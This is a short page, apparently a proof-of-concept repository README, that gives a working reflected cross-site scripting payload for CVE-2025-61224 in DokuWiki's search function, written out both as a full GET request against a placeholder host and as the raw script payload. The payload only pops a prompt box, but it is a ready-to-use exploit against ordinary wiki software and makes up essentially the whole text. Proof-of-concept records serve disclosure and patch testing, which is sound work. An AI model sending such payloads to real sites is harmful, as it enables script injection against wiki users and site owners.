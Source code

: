 # poc
checkedPocs

# CVE-2025-61224
poc: GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E
Payload: ```1 @<script>prompt`xss`</script>```
